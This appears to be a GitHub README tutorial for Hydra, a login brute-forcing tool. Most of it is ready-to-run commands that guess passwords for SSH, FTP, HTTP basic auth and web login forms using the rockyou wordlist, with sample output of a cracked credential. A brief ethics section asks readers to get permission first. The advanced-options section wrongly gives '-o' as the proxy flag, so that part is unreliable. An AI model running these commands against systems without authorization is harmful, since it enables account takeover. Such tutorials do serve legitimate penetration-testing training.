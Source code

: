 # hydra


### Step-by-Step Tutorial for Using Hydra

#### Prerequisites
1. **Operating System:** Hydra works best on Linux, so ensure you have a Linux distribution installed (e.g., Kali Linux, which comes with Hydra pre-installed).
2. **Install Hydra:** If Hydra is not installed, you can install it using the following commands:
    ```bash
    sudo apt update
    sudo apt install hydra
    ```
3. **Basic Knowledge:** Understanding basic networking concepts and common protocols (like FTP, SSH, HTTP) is beneficial.

### Step 1: Understanding Hydra
Hydra is used to test login credentials against various services. It supports many protocols, including but not limited to:
- FTP
- SSH
- Telnet
- HTTP
- HTTPS
- RDP
- SMB

### Step 2: Basic Command Structure
The basic syntax for Hydra is:
```bash
hydra [options] [target] [protocol]
```
For example, a basic command to brute-force an FTP service might look like this:
```bash
hydra -l username -P /path/to/password/list.txt ftp://target-ip
```

### Step 3: Examples and Detailed Usage

#### Example 1: Brute-Forcing SSH Login
1. **Single Username and Password List:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
    ```
    - `-l admin`: Specifies a single username (`admin`).
    - `-P /usr/share/wordlists/rockyou.txt`: Path to the password list.
    - `ssh://192.168.1.100`: Target IP and protocol.

2. **Multiple Usernames and Password List:**
    ```bash
    hydra -L /path/to/userlist.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
    ```
    - `-L /path/to/userlist.txt`: Path to the file containing multiple usernames.

#### Example 2: Brute-Forcing HTTP Login
1. **Basic Authentication:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.1.100
    ```
    - `http-get://192.168.1.100`: Target IP and HTTP GET request.

2. **Form-Based Authentication:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
    ```
    - `http-post-form`: Specifies that it is a POST form.
    - `/login.php:user=^USER^&pass=^PASS^:F=incorrect`: Specifies the form structure. `^USER^` and `^PASS^` are placeholders for Hydra to insert usernames and passwords. `F=incorrect` specifies a failure condition (i.e., the string "incorrect" appears in the response when login fails).

#### Example 3: Brute-Forcing FTP Login
1. **Single Username and Password List:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100
    ```
2. **Multiple Usernames and Password List:**
    ```bash
    hydra -L /path/to/userlist.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100
    ```

### Step 4: Advanced Options
- **Verbose Output:** Use `-vV` for verbose output to see each attempt.
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV ssh://192.168.1.100
    ```
- **Specify Number of Tasks:** Use `-t` to specify the number of parallel tasks (default is 16).
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.100
    ```
- **Use a Proxy:** To route traffic through a proxy, use the `-o` option.
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -o proxy-address ssh://192.168.1.100
    ```

### Step 5: Interpreting Results
Once Hydra completes, it will display any successful login credentials. For example:
```
[22][ssh] host: 192.168.1.100 login: admin password: password123
```

### Step 6: Ethical Considerations
- **Permission:** Always ensure you have explicit permission to test the target systems.
- **Impact:** Be aware of the potential impact on the target system's performance.
- **Legal Implications:** Unauthorized access to computer systems is illegal and unethical.

### Step 7: Practice and Continuous Learning
- **Practice:** Regularly practice in controlled environments like Capture The Flag (CTF) challenges or lab setups.
- **Update Wordlists:** Keep your wordlists and Hydra updated to stay effective against new security measures.

### Conclusion
Hydra is a powerful tool for password cracking in cybersecurity. This tutorial provides a foundational understanding of how to use Hydra effectively. Always use Hydra responsibly and ethically within the boundaries of the law and organizational policies.